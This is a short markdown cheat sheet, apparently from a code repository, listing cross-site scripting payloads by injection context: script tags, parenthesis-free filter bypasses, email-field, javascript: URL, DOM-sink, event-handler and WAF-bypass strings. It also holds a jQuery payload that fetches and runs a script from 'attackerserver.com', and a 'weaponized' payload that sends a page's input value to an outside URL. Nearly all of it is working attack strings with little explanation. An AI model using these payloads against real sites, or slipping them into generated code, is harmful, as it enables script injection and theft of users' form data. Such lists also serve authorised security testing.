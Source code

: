 # My collection of XSS

## Regular XSS
<script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)"/>

## Filter
No parentheses
<script>onerror=alert;throw 1337</script>
No parentheses + semicolon
<script>{onerror=alert}throw 1337</script>

## email
Find: email field

Payload
"<svg/onload=confirm(1)>"@x.y

## Url / Link
Find: embeded URL from input

javascript://%250Aalert(1)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
javascript://https://domain.com/%250A1?alert(1):0

## DOM
Find: javascript to update an element or documents
1. innerHTML
2. outerHTML
3. document.write()
4. document.writeln()

Payload
<img+src+onerror=alert(1)>
javascript:alert(1)

## Event handler
" onerror="alert(1)
<xml onreadystatechange=alert(1)>

## Bypass WAF
<body%20alt=al%20lang=ert%20onmouseenter="top['al'+lang](/Piya/)

## Enabled jQuery
<body onpointerenter="jQuery.getScript('https:/' +'/attackerserver.com/inject.js')">

## Weaponized
<img src=x onerror="location=('http://127.0.0.1/?c=' %2b document.getElementsByTagName('input')[2].value)"

